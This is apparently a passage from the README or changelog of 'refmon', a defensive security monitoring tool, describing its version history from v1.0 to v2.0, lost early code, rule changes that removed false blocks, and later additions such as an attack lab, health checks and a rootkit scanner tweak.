`v1.0` is the frozen baseline after Phase 7. Every later version (`v1.1` to `v1.7`, `v2.0`) changes
structural rules only in response to a documented finding,
and is evaluated on a fresh variant seed recorded before the change
([docs/variant-seeds.md](docs/variant-seeds.md));
the weights have not changed since `v1.0`. The git tags `v1.7` and `v2.0` hold the code of those
versions (checked by exact replay of the committed results). The code of `v1.0` to `v1.6` was lost
when the history was squashed; their per-variant results stay in `docs/evaluation/` as a record.
`v2.0` scopes trust to process lineage (A65) and lets a
channel role hand containment to the program it started (A66); it removed the last neutral false
blocks (2/158 → 0/158) without changing any malicious outcome.

On top of `v2.0`, without any change to a rule, weight or decision (the golden catalog, the
variant matrix and the lab reference run give identical decisions):

- the interactive attack lab and its analysis, and the Phase 8 plan;
- health and notifications in `refmon serve` (self-test, heartbeat, watchdog, policy
  re-verification, webhook and command channels) and `refmon health`;
- the rootkit scanner treats the rwx memory of JIT runtimes as a note, and exits 0/1/2;
- `make reproduce` replays the versions of the active seed (`v1.7`, `v2.0`) and refuses a tag
  without its code; the misleading tags `v1.0` to `v1.3` were deleted;
- the paper's charts and the updated diagram book; `scripts/push_to_github.sh`.
